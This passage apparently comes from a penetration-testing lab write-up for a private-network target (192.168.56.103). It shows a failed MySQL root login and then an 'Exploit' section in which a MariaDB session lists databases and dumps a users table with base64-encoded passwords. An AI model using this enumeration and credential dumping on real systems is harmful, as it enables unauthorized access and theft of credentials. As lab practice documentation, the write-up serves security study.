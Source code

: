 ``` 
		}
	}
}

?>

``` 

## 192.168.56.103 - 3306

```
mysql -u root --host 192.168.56.103
ERROR 1045 (28000): Access denied for user 'root'@'192.168.56.102' (using password: NO)
``` 

## Exploit


### passwords

``` 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 123
Server version: 5.5.47-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+
2 rows in set (0.001 sec)

MySQL [(none)]> use Users
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.001 sec)

MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
3 rows in set (0.001 sec)

MySQL [(none)]> help;
```